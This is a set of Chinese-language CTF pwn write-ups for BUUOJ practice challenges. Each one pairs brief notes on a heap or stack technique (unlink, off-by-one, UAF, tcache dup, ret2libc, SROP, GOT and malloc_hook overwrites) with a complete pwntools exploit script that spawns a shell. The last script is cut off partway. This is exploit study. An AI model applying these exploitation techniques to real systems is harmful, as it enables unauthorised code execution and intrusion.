



# [ZJCTF 2019]EasyHeap
heap, unlink, overlap
用数组储存堆地址。利用 unlink 将地址指向数组，即可实现任意地址读写。
unlink 修改的堆地址应该为真实地址，而 malloc 返回的地址为用户地址。所以伪造的 fakechunk 要在当前块的头部紧接着的地方。例如：
数组储存的某个块的地址为 0x5010，则该处应为 chunk 的头，所以直接将 fakechunk 输入至 chunk 中。addr 为数组上储存 0x5010 处的地址。unlink 后 addr 指向 addr-0x18，即数组下标小 3 的位置。
| 地址 | 0x0 | 0x8 | |
|---|---|---|---|
| 0x5000 | 0 | 0xa1 | chunk 开始 |
| 0x5010 | 0 | 0x91 | fakechunk 开始 |
| 0x5020 | addr-0x18 | addr-0x10 | |
| 0x5030 | * | * | |
| * | * | * | |
| 0x50 | 0 | 0x90 | 下一 chunk 覆盖 inuse 位 |
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher3 import LibcSearcher | |
context(arch='amd64', log_level='debug') | |
filename = './easyheap' | |
libdir = '/home/walt/share/pwn/libc/libc6_2.23-0ubuntu10_amd64/libc/lib/x86_64-linux-gnu/' | |
libc=ELF(libdir + 'libc-2.23.so') | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process("./"+filename+'_pe') if mode else remote('node4.buuoj.cn',28311) | |
e = ELF('./'+filename) | |
if mode==2: | |
gdb.attach(p, 'b *0x400c8c') | |
def suspend(): | |
if mode == 2: | |
pause() | |
else: | |
sleep(0.1) | |
def choose(x): | |
p.sendlineafter(b'Your choice :', str(x).encode()) | |
def mal(size, content): | |
choose(1) | |
p.sendlineafter(b'Size of Heap :', str(size).encode()) | |
p.sendafter(b'Content of heap:', content) | |
def free(index): | |
choose(3) | |
p.sendlineafter(b'Index :', str(index).encode()) | |
def edit(index, size, content): | |
choose(2) | |
p.sendlineafter(b'Index :', str(index).encode()) | |
p.sendlineafter(b'Size of Heap : ', str(size).encode()) | |
p.sendafter(b'Content of heap : ', content) | |
heaparray = 0x6020E0 | |
atoi_g = 0x602068 | |
system_p = e.plt['system'] | |
mal(0x18, b'a') | |
mal(0x18, b'a') | |
mal(0x18, b'a') | |
mal(0xa8, b'aa') #size 0xb0 #3 | |
mal(0x90, b'aa') #4 | |
mal(0x18, b'end') | |
payload = p64(0) + p64(0xa1) + p64(heaparray + 0x8*3 - 0x8*3) + p64(heaparray + 0x8*3 - 0x8*2) | |
payload = payload.ljust(0xa0, b'a') + p64(0xa0) + p64(0xa0) | |
edit(3, len(payload), payload) | |
free(4) | |
edit(3, 8, p64(atoi_g)) | |
edit(0, 8, p64(system_p)) | |
p.sendlineafter(b'Your choice :', b'/bin/sh\0') | |
p.interactive() |
# hitcontraining_heapcreator
off_by_one, UAF, overlap
可写 got 表。
单字节溢出覆盖下一 chunk 修改其大小，造成堆块重叠。
程序采用固定分配一个 0x10 大小的块来管理用户需要的块的方法，该块前 8 字节储存用户块大小，后 10 字节储存用户块地址。因此调整堆块分配，使得其中一个用户块 ra 与一个管理块 hb 重叠，对 ra 的读写操作可以控制 hb 的数据，由此实现任意地址读写。
最后泄露 got 表上 free 的真实地址获取 libc 版本。然后修改 free 的真实地址为 system 地址。释放含 /bin/sh\0 的块，实现 getshell。
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
context(arch='amd64', log_level='debug') | |
filename = 'heapcreator' | |
#libdir = '' | |
#libc = ELF(libdir + 'libc-2.23.so') | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process('./'+filename+'_pe') if mode else remote('node4.buuoj.cn',25016) | |
e = ELF('./'+filename+'_pe') if mode else ELF('./'+filename) | |
if mode==2: | |
gdb.attach(p, 'b *0x4008f8') | |
def suspend(): | |
if mode == 2: | |
pause() | |
else: | |
sleep(0.1) | |
def choose(x): | |
p.sendlineafter(b'Your choice :', str(x).encode()) | |
def mal(size, content): | |
choose(1) | |
p.sendlineafter(b'Size of Heap : ', str(size).encode()) | |
p.sendafter(b'Content of heap:', content) | |
def free(index): | |
choose(4) | |
p.sendlineafter(b'Index :', str(index).encode()) | |
def edit(index, content): | |
choose(2) | |
p.sendlineafter(b'Index :', str(index).encode()) | |
p.sendafter(b'Content of heap : ', content) | |
def dump(index): | |
choose(3) | |
p.sendlineafter(b'Index :', str(index).encode()) | |
p.recvuntil(b'Content : ') | |
class headchunk(): | |
def __init__(self, dest, size): | |
self.dest = dest | |
self.size = size | |
def out(self): | |
payload = 0x10*b'a' + flat([0, 0x21,self.size,self.dest]) | |
return payload | |
heaparray = 0x6020a0 | |
free_g = e.got['free'] | |
mal(0x50, b'fh') | |
mal(0x58, b'uc') #1 | |
mal(0x18, b'fh') | |
mal(0x18, b'/bin/sh\0') #3 | |
payload = b'a' * 0x58 + p8(0x41) | |
edit(1, payload) | |
free(2) | |
free(0) | |
mal(0x38, b'ffff') #0 h0 -> h2 -c- r2 | |
mal(0x50, b'ffff') #2 r2 -> r0 | |
ch = headchunk (free_g, 0x18) | |
edit(0, ch.out()) | |
dump(2) | |
free_a = u64(p.recvuntil(b'\n')[:-1].ljust(8, b'\0')) | |
libcs = LibcSearcher('free', free_a) | |
libcbase = free_a - libcs.dump('free') | |
sys_a = libcbase + libcs.dump('system') | |
edit(2, p64(sys_a)) | |
free(3) | |
p.interactive() |
# gyctf_2020_borrowstack
stack_migration
程序给定了栈溢出的地址和对应的两个读取函数。
用老方法，迁移后，泄露 libc 地址，然后构造 system("/bin/sh"); 。
由于程序给予的溢出地址过于接近 got 表及其他数据，在执行 system 时栈增长过长会破坏运行所需数据。因此第二次将栈迁移至 0x601800 处。
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher3 import LibcSearcher | |
context(arch='amd64', log_level='debug') | |
e=ELF('./gyctf_2020_borrowstack') | |
#p=process('./gyctf_2020_borrowstack_pe') | |
p=remote('node4.buuoj.cn',29693) | |
#gdb.attach(p, 'b *0x400626') | |
lsm_g = e.got['__libc_start_main'] | |
puts_p = e.plt['puts'] | |
read_p = e.plt['read'] | |
main_a = 0x0400680 | |
target = 0x0601080 | |
target2 = 0x0601800 | |
offset = 0x60 | |
rdi_ret=0x400703 | |
rsi_r15=0x400701 | |
leave_ret = 0x400699 | |
ret = 0x4004c9 | |
payload = b'a'*offset + p64(target) + p64(leave_ret) | |
p.recvuntil(b'what you want') | |
p.send(payload) | |
p.recvuntil(b'now!\n') | |
payload =p64(target2) + p64(ret)*0x10 + flat([rdi_ret, lsm_g, puts_p, rdi_ret, 0, rsi_r15, target2, 0, read_p, leave_ret]) | |
p.send(payload) | |
lsm_a = u64(p.recvuntil(b'\x0a')[:-1].ljust(8,b'\0')) | |
print('libc_start_main ',hex(lsm_a)) | |
libc = LibcSearcher('__libc_start_main',lsm_a) | |
libcbase = lsm_a - libc.dump('__libc_start_main') | |
sys_a = libcbase + libc.dump('system') | |
bs_a = libcbase + libc.dump('str_bin_sh') | |
sleep(0.5) | |
payload = p64(ret) + p64(rdi_ret) + p64(bs_a) + p64(sys_a) | |
p.send(payload) | |
p.interactive() |
# babyfengshui_33c3_2016
overlap
head chunk
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher3 import LibcSearcher | |
context(arch='i386', log_level='debug') | |
filename = 'babyfengshui_33c3_2016' | |
libdir = '/home/walt/share/pwn/libc/libc6_2.23-0ubuntu10_amd64/libc/lib/x86_64-linux-gnu/' | |
libc = ELF(libdir + 'libc-2.23.so') | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process('./'+filename+'_pe') if mode else remote('node4.buuoj.cn',28175) | |
e = ELF('./'+filename+'_pe') if mode else ELF('./'+filename) | |
if mode==2: | |
gdb.attach(p, 'b *0x08048AC0') | |
def suspend(): | |
if mode == 2: | |
pause() | |
else: | |
sleep(0.1) | |
def choose(x): | |
p.sendlineafter(b'Action: ', str(x).encode()) | |
def mal(size, name, text, wsize=0): | |
choose(0) | |
p.sendlineafter(b'size of description: ', str(size).encode()) | |
p.sendlineafter(b'name: ', name) | |
if wsize==0: | |
wsize=size-1 | |
p.sendlineafter(b'text length: ', str(wsize).encode()) | |
p.sendlineafter(b'text: ', text) | |
def free(index): | |
choose(1) | |
p.sendlineafter(b'index: ', str(index).encode()) | |
def edit(index, size, content): | |
choose(3) | |
p.sendlineafter(b'index: ', str(index).encode()) | |
p.sendlineafter(b'text length: ', str(size).encode()) | |
p.sendlineafter(b'text: ', content) | |
def dump(index): | |
choose(2) | |
p.sendlineafter(b'index: ', str(index).encode()) | |
p.recvuntil(b'description: ') | |
class headchunk(): | |
def __init__(self, dest, size=0x28): | |
self.dest = dest | |
self.size = size | |
def out(self): | |
payload = flat([self.size,self.dest]) | |
return payload | |
ptr = 0x804B080 | |
free_g = e.got['free'] | |
mal(0xc, b'hc', b'start') #0 | |
mal(0x90, b'aaaa', b'bbbb') #1 | |
mal(0xc, b'end', b'/bin/sh\0') #2 | |
free(0) | |
free(1) | |
mal(0x2c, b'jump', b'disabled') #3 | |
mal(0xc, b'control', b'writebegin') #4 | |
front = flat({0xc: 0x31, 0xc+0x30: 0x89}) | |
payload = front + p32(free_g) | |
edit(4, len(payload), payload) | |
dump(3) | |
free_a = u32(p.recv(4)) | |
libcs = LibcSearcher('free', free_a) | |
libcbase = free_a - libcs.dump('free') | |
sys_a = libcbase + libcs.dump('system') | |
edit(3, 4, p32(sys_a)) | |
free(2) | |
p.interactive() |
# 0ctf_2017_babyheap
overlap, double free, malloc_hook,
利用 overlap 构造重叠块，释放 unsorted bin 泄露 libc 地址。
覆盖 malloc_hook 为 one_gadget
# 注意点
分配函数使用 calloc，需注意在分配后是否需要还原堆内容。
#!/usr/bin/python3 | |
from pwn import * | |
context(arch='amd64', log_level='debug') | |
filename = '0ctf_2017_babyheap' | |
libdir = '/home/walt/share/pwn/libc/libc6_2.23-0ubuntu10_amd64/libc/lib/x86_64-linux-gnu/' | |
libc = ELF(libdir + 'libc-2.23.so') | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process('./'+filename+'_pe') if mode else remote('node4.buuoj.cn',26986) | |
e = ELF('./'+filename+'_pe') if mode else ELF('./'+filename) | |
if mode==2: | |
gdb.attach(p, 'b *$rebase(0xD47)') | |
def suspend(): | |
if mode == 2: | |
pause() | |
else: | |
sleep(0.1) | |
def choose(x): | |
p.sendlineafter(b'Command: ', str(x).encode()) | |
def mal(size): | |
choose(1) | |
p.sendlineafter(b'Size: ', str(size).encode()) | |
def free(index): | |
choose(3) | |
p.sendlineafter(b'Index: ', str(index).encode()) | |
def edit(index, size, content): | |
choose(2) | |
p.sendlineafter(b'Index: ', str(index).encode()) | |
p.sendlineafter(b'Size: ', str(size).encode()) | |
p.sendafter(b'Content: ', content) | |
def dump(index): | |
choose(4) | |
p.sendlineafter(b'Index: ', str(index).encode()) | |
p.recvuntil(b'Content: ') | |
class headchunk(): | |
def __init__(self, dest, size=0x28): | |
self.dest = dest | |
self.size = size | |
def out(self): | |
payload = flat([self.size,self.dest]) | |
return payload | |
mal(0x18) | |
mal(0x18) | |
mal(0x90) | |
mal(0x18) #3 | |
mal(0x68) | |
#payload = b'a'*0x18 + p64(0x41) + b'a'*0x18 + p64 + p64(0x71) | |
payload = flat({0x18:0x41, 0x18+0x20:0x90, 0x18+0x40:0x71}) | |
edit(0, len(payload), payload) | |
free(1) | |
mal(0x38) #1 | |
payload = flat({0x18:0xa1}) | |
edit(1, len(payload), payload) | |
free(2) | |
dump(1) | |
p.recvuntil(p64(0xa1)) | |
mh_a = u64(p.recv(8)) - 0x68 | |
print('[+] the address of malloc hook is:%#x'%mh_a) | |
libcbase = mh_a - libc.sym['__malloc_hook'] | |
one_gadget = 0x4526a | |
one_gadget += libcbase | |
fakechunk = mh_a - 0x23 | |
payload1 = b'\0'*0x13 + p64(one_gadget) | |
payload = flat({0x18:[0x71,fakechunk]}) | |
free(4) | |
edit(3, len(payload), payload) | |
mal(0x68) #2 | |
mal(0x68) #4 | |
edit(4, len(payload1), payload1) | |
mal(1) | |
p.interactive() |
# hitcon2014_stkof
unlink
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
context(arch='amd64', log_level='debug') | |
filename = 'stkof' | |
libdir = '/home/walt/share/pwn/libc/libc6_2.23-0ubuntu10_amd64/libc/lib/x86_64-linux-gnu/' | |
libc = ELF(libdir + 'libc-2.23.so') | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process('./'+filename+'_pe') if mode else remote('node4.buuoj.cn',26478) | |
e = ELF('./'+filename+'_pe') if mode else ELF('./'+filename) | |
if mode==2: | |
gdb.attach(p, 'b *0x400D31') | |
def suspend(): | |
if mode == 2: | |
pause() | |
else: | |
sleep(0.1) | |
def end(): | |
p.recvuntil(b'OK\n') | |
def choose(x): | |
p.sendline(str(x).encode()) | |
def mal(size): | |
choose(1) | |
p.sendline(str(size).encode()) | |
end() | |
def free(index, e=1): | |
choose(3) | |
p.sendline(str(index).encode()) | |
if e: | |
end() | |
def edit(index, size, content): | |
choose(2) | |
p.sendline(str(index).encode()) | |
p.sendline(str(size).encode()) | |
p.send(content) | |
end() | |
def dump(index): | |
choose(4) | |
p.sendline(str(index).encode()) | |
end() | |
s = 0x602140 | |
free_g = 0x602018 | |
index = (free_g-s)//8 | |
lsm_g = e.got['__libc_start_main'] | |
puts_p = e.plt['puts'] | |
mal(0x18) | |
mal(0x18) | |
mal(0x18) | |
mal(0xa0) #4 | |
mal(0x90) | |
mal(0x18) #6 | |
payload = p64(0) + p64(0xa1)+ p64(s+0x8*4 - 0x8*3) + p64(s+0x8*4 - 0x8*2) | |
payload = payload.ljust(0xa0, b'\0') + p64(0xa0) + p64(0xa0) | |
edit(4, len(payload), payload) | |
free(5) | |
# 4 -> 1 | |
edit(4, 0x8, p64(free_g)) | |
edit(1, 0x8, p64(puts_p)) | |
edit(4, 0x8, p64(lsm_g)) | |
free(1,0) | |
lsm_a = u64(p.recvuntil(b'\x0a')[:-1].ljust(8,b'\0')) | |
print('[+] the address of lsm is:%#x'%lsm_a) | |
libcbase = lsm_a - libc.sym['__libc_start_main'] | |
sys_a = libcbase + libc.sym['system'] | |
edit(6, 0x8, b'/bin/sh\0') | |
edit(4, 0x8, p64(free_g)) | |
edit(1, 0x8, p64(sys_a)) | |
free(6) | |
p.interactive() |
# pwnable_hacknote
uaf, double free
使用一个 0x8（实际占用 0x10，可用空间 0xc）的块来管理用户块。同时有 double free 漏洞。
利用 uaf，泄露 unsorted bin chunk 的 libc 地址，获得 system 的地址。
管理块的前 4 字节储存输出函数，后 4 字节储存用户块的地址。调用该输出函数时会以管理块的地址作为参数，由输出函数将其转换成用户块地址。
将输出函数的地址替换成 system 函数的地址，在其后接入 ;sh\0 。由于管理块首此时为 system 的地址，无法解析，于是可以。
靶机用的不是平时用的 2.23 的 32 位库，用的一个很神奇的看不懂的库。记录一下。

#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher3 import LibcSearcher | |
context(arch='i386', log_level='debug') | |
filename = 'hacknote' | |
libdir = '/mnt/share/pwn/buu/libc/libc6_2.23-0ubuntu10_i386/' | |
libc = ELF(libdir + 'libc-2.23.so') | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
e = ELF('./'+filename+'_pe') if mode else ELF('./'+filename) | |
if mode==2: | |
gdb.attach(p, 'b *0x08048A33') | |
def suspend(): | |
if mode == 2: | |
pause() | |
else: | |
sleep(0.1) | |
def choose(x): | |
p.sendlineafter(b'Your choice :', str(x).encode()) | |
def mal(size, content=b'blank\0'): | |
choose(1) | |
p.sendlineafter(b'Note size :', str(size).encode()) | |
p.sendafter(b'Content :', content) | |
def free(index): | |
choose(2) | |
p.sendlineafter(b'Index :', str(index).encode()) | |
def dump(index): | |
choose(3) | |
p.sendlineafter(b'Index :', str(index).encode()) | |
class headchunk(): | |
def __init__(self, dest, size=0x28): | |
self.dest = dest | |
self.size = size | |
def out(self): | |
payload = flat([self.size,self.dest]) | |
return payload | |
puts_4 = 0x804862B | |
while(1): | |
p = process('./'+filename+'_pe') if mode else remote('node4.buuoj.cn',25186) | |
mal(0x80, b'uc') | |
mal(0x20) | |
free(0) | |
free(1) | |
mal(0x8, p32(puts_4)) #2 | |
dump(0) | |
mainarena_48 = u32(p.recv(4)) | |
mh_a = mainarena_48 - 0x48 | |
print('[+] the address of malloc hook is:%#x'%mh_a) | |
obj = LibcSearcher('__malloc_hook', mh_a) | |
libcbase = mh_a - obj.dump('__malloc_hook') | |
sys_a = libcbase + obj.dump('system') | |
free(2) | |
mal(0xc, p32(sys_a)+b';sh\0') | |
dump(0) | |
p.interactive() |
# jarvisoj_level5
ret2libc
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
context(os='linux', arch='amd64', log_level='debug') | |
filename = 'level3_x64' | |
libcfile = '/home/walt/share/pwn/libc/libc6_2.23-0ubuntu10_amd64/libc/lib/x86_64-linux-gnu/libc-2.23.so' | |
libc = ELF(libcfile) | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process("./"+filename) if mode else remote('node4.buuoj.cn',26721) | |
e = ELF('./'+filename) | |
if mode==2: | |
gdb.attach(p, 'b ') | |
main_a = e.sym['main'] | |
write_p=e.plt['write'] | |
lsm_g = e.got['__libc_start_main'] | |
offset = 0x080 + 8 | |
rdi = 0x04006b3 | |
rsi_r15 = 0x04006b1 | |
ret = 0x0400499 | |
payload = offset * b'a' + p64(rdi) + p64(1) + p64(rsi_r15) + p64(lsm_g) + p64(0) + p64(write_p) + p64(main_a) | |
p.sendafter(b'Input:\n',payload) | |
lsm_a = u64(p.recvuntil('\x7f').ljust(8,b'\0')) | |
print('the true address of __libc_start_main is %#x'%lsm_a) | |
obj = LibcSearcher('__libc_start_main',lsm_a) | |
libcbase = lsm_a - obj.dump('__libc_start_main') | |
sys_a = libcbase + obj.dump('system') | |
bs_a = libcbase + obj.dump('str_bin_sh') | |
payload = offset * b'a' + p64(rdi) + p64(bs_a) + p64(sys_a) + p64(main_a) | |
p.send(payload) | |
p.interactive() | |
p.close() |
# roarctf_2019_easy_pwn
off by one, malloc hook,
最后直接将 malloc_hook 设为 one_gadget，不符合条件。选择利用 realloc 跳板。直接成功了，所以没有再去计算。
#!/usr/bin/python3
from pwn import *
from LibcSearcher import LibcSearcher
context(arch='amd64', log_level='debug')
filename = 'roarctf_2019_easy_pwn'
libcfile = '/home/walt/share/pwn/libc/libc6_2.23-0ubuntu10_amd64/libc/lib/x86_64-linux-gnu/libc-2.23.so'
libc = ELF(libcfile)
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0
p = process('./'+filename+'_pe') if mode else remote('node4.buuoj.cn',28961)
e = ELF('./'+filename+'_pe') if mode else ELF('./'+filename)
if mode==2:
gdb.attach(p, 'b *$rebase(0x121C)')
def suspend():
if mode == 2:
pause()
else:
sleep(0.1)
def choose(x):
p.sendlineafter(b'choice: ', str(x).encode())
def mal(size):
choose(1)
p.sendlineafter(b'size: ', str(size).encode())
def free(index):
choose(3)
p.sendlineafter(b'index: ', str(index).encode())
def edit(index, size, content):
choose(2)
p.sendlineafter(b'index: ', str(index).encode())
p.sendlineafter(b'size: ', str(size).encode())
p.sendafter(b'content: ', content)
def dump(index):
choose(4)
p.sendlineafter(b'index: ', str(index).encode())
p.recvuntil(b'content: ')
class headchunk():
def __init__(self, dest, size=0x28):
self.dest = dest
self.size = size
def out(self):
payload = flat([self.size,self.dest])
return payload
addrArr = 0x202048
c3 = addrArr + 0x8*3
mal(0x18)
mal(0x18)
mal(0x18)
mal(0x78) #3
mal(0x18)
edit(0, 0x18+10, b'a'*0x18 + b'\x41')
free(1)
mal(0x38) #1
payload = b'a'*0x18 + p64(0xa1)
edit(1,len(payload), payload)
free(2)
dump(1)
p.recvuntil(p64(0xa1))
ma_ = u64(p.recv(8))
mh_a = ma_ - 0x68
print('[+] the address of mh is:%#x'%mh_a)
obj = LibcSearcher('__malloc_hook', mh_a)
libcbase = mh_a - obj.dump('__malloc_hook')
realloc_a = libcbase + obj.dump('realloc')
oneg = 0x4526a
oneg += libcbase
fakeadd = mh_a - 0x23
fakechunk = b'a'*0xb + p64(oneg) + p64(realloc_a)
mal(0x68) #2
free(2)
payload = b'a'*0x18 + p64(0x71) + p64(fakeadd)
edit(1, len(payload), payload)
mal(0x68) #2
mal(0x68) #5 -> fakechunk
edit(5, len(fakechunk), fakechunk)
mal(1)
p.interactive()
# ciscn_2019_es_7
#!/usr/bin/python3 | |
from pwn import * | |
context(arch='amd64',log_level='debug') | |
e=ELF('./ciscn_2019_es_7') | |
#p=process('./ciscn_2019_es_7') | |
p=remote('node4.buuoj.cn',28769) | |
#gdb.attach(p, 'b main') | |
offset = 0x010 | |
csu_front_addr = 0x0400580 | |
csu_end_addr = 0x040059A | |
buf = 0x601000 + 0x100 | |
gad = 0x4004D6 | |
syscall = 0x400517 | |
rdi_ret = 0x4005a3 | |
rsi_r15 = 0x4005a1 | |
rax0f = 0x4004da | |
sigframe = SigreturnFrame() | |
sigframe.rax = constants.SYS_read | |
sigframe.rdi = 0 | |
sigframe.rsi = buf | |
sigframe.rdx = 0x400 | |
sigframe.rsp = buf | |
sigframe.rip = syscall | |
payload = b'a' * offset + p64(rax0f) + p64(syscall) + bytes(sigframe) | |
p.send(payload) | |
time.sleep(1) | |
# execv("/bin/sh",0,0) | |
sigframe = SigreturnFrame() | |
sigframe.rax = constants.SYS_execve | |
sigframe.rdi = buf + 0x120 | |
sigframe.rsi = 0x0 | |
sigframe.rdx = 0x0 | |
sigframe.rsp = buf | |
sigframe.rip = syscall | |
payload = p64(rax0f) + p64(syscall) + bytes(sigframe) | |
assert len(payload)<=0x120 | |
payload = payload.ljust(0x120,b'a') + b'/bin/sh\0' | |
sleep(1) | |
pause() | |
p.send(payload) | |
payload = p64(syscall) + b'/bin/sh\0' | |
p.interactive() |
# mrctf2020_shellcode_revenge
61-7a
41-5a
30-5a
alpha
#!/usr/bin/python3
from pwn import *
#p=process('./mrctf2020_shellcode_revenge')
p=remote('node4.buuoj.cn',29553)
payload = b'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t'
p.send(payload)
p.interactive()
# cmcc_pwnme2
ret2libc
系统有给 orw 的漏洞，但我没去利用。
在子函数里即可直接栈溢出。因为是 32 位程序，不需要担心地址的 '\0' 让 strcpy 截断。
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher3 import LibcSearcher | |
context(os='linux',arch='i386',log_level='debug') | |
filename = 'pwnme2' | |
libcfile = '/home/walt/share/pwn/libc/libc6_2.23-0ubuntu10_i386/libc/lib/i386-linux-gnu/libc-2.23.so' | |
libc = ELF(libcfile) | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process("./"+filename) if mode else remote('node4.buuoj.cn',29470) | |
e = ELF('./'+filename) | |
if mode==2: | |
gdb.attach(p, 'b gets') | |
def suspend(): | |
if mode == 2: | |
pause() | |
else: | |
sleep(0.1) | |
main_a = e.symbols['main'] | |
puts_p = e.plt['puts'] | |
#write_p = e.plt['write'] | |
lsm_g = e.got['__libc_start_main'] | |
offset=0x06c + 4 | |
#choose use puts or write | |
payload = b'a'*offset + p32(puts_p) + p32(main_a) + p32(lsm_g) | |
#payload = b'a'*offset + p32(write_p) + p32(main_a) + p32(1) + p32(lsm_g) +p32(4) | |
p.sendlineafter(b'Please input:\n',payload) | |
p.recvuntil(b'\n') | |
lsm_a = u32(p.recv(4)) | |
print('the true address of __libc_start_main is %#x'%lsm_a) | |
#choose use LibcSearcher or libc file | |
#''' | |
obj = LibcSearcher('__libc_start_main',lsm_a) | |
libcbase = lsm_a - obj.dump('__libc_start_main') | |
sys_a = libcbase + obj.dump('system') | |
bs_a = libcbase + obj.dump('str_bin_sh') | |
''' | |
libcbase = lsm_a - libc.sym['__libc_start_main'] | |
sys_a = libcbase + libc.sym['system'] | |
bs_a = libcbase + next(libc.search(b'/bin/sh')) | |
''' | |
payload = b'a'*offset + p32(sys_a) + p32(main_a) + p32(bs_a) | |
p.sendline(payload) | |
p.interactive() | |
p.close() |
# picoctf_2018_got_shell
修改 got
拥有一次任意读写的机会。主函数最后使用 exit 退出。还有后门函数。got 表可写。
很明显了，修改 exit 的 got 表为后门函数的地址。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
#p=process('./PicoCTF_2018_got-shell') | |
p=remote('node4.buuoj.cn',27411) | |
gadget = 0x0804854B | |
exit_g = 0x0804A014 | |
p.sendline(hex(exit_g).encode()) | |
p.sendline(hex(gadget).encode()) | |
p.interactive() |

# mrctf2020_easy_equation
fmtstr
数学题
17 ^ x4 - 13x^3 + 11x^2 - 7x =198
解得 x=2
利用 printf 格式化漏洞将 judge 的值修改为 2。
#!/usr/bin/python3 | |
from pwn import * | |
context(arch='amd64',log_level='debug') | |
#p=process('./mrctf2020_easy_equation') | |
p=remote('node4.buuoj.cn',28696) | |
#gdb.attach(p, 'b printf') | |
target = 0x60105C | |
payload = b'a' + fmtstr_payload(8,{target:2}, 1) | |
print(payload) | |
p.sendline(payload) | |
p.interactive() |
# npuctf_2020_easyheap
tcache dup, off_by_one, overlap
该题目运行于 ubunut 18.04，经查找，libc 版本为 2.27，此版本在 2.26 之后，已经开始使用 tcache。但 tcache 相关机制还未完善，tcache dup 的实现十分便捷。
释放堆块后数组清空地址。且只能分配真实大小 0x20 和 0x40 的用户块，管理块固定为 0x20.
首先调整堆块排列，构造出两个 0x20 的用户块 a 和 b 相邻的情况。其中地址高的那块往下与 0x20 的 c 块相连。利用 off_by_one 将 b 块的 size 设为 0x41。形成堆块重叠。
由此，b 块可以控制 c 块内容。将 c 块释放后，用 b 块往 c 块写入 free 的 got 地址。因为两者都为 0x20 大小，所以下一次分配可以得到管理块为 c 块，用户块为 got 表 free 的块。由此可对其进行读写。
为了泄露 free 的地址用于计算 system 的地址，一开始不能修改到 free_got 的数据。但分配函数分配完便要求一次输入。因此选择分配到 free_got 低一位的地址，在分配时输入任意非空字符。之后覆盖 free 地址时也记得补上 1 偏移。（另一种解决方法是泄露 got 表中下一项_exit 的值）
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
context(arch='amd64', log_level='debug') | |
filename = 'npuctf_2020_easyheap' | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process('./'+filename+'_pe') if mode else remote('node4.buuoj.cn',28329) | |
e = ELF('./'+filename+'_pe') if mode else ELF('./'+filename) | |
if mode==2: | |
gdb.attach(p, 'b *0x400E75') | |
def choose(x): | |
p.sendlineafter(b'Your choice :', str(x).encode()) | |
def mal(size, content=b'aaaa'): | |
choose(1) | |
p.sendlineafter(b'Size of Heap(0x10 or 0x20 only) : ', str(size).encode()) | |
p.sendafter(b'Content:', content) | |
def free(index): | |
choose(4) | |
p.sendlineafter(b'Index :', str(index).encode()) | |
def edit(index, content): | |
choose(2) | |
p.sendlineafter(b'Index :', str(index).encode()) | |
p.sendafter(b'Content: ', content) | |
def dump(index): | |
choose(3) | |
p.sendlineafter(b'Index :', str(index).encode()) | |
p.recvuntil(b'Content :') | |
mal(0x38) | |
mal(0x38) | |
mal(0x18) | |
mal(0x18) #3 | |
mal(0x18) #4 | |
free(2) | |
free(1) | |
mal(0x18) #1 low | |
free(0) | |
mal(0x18) #0 high | |
mal(0x38) #2 | |
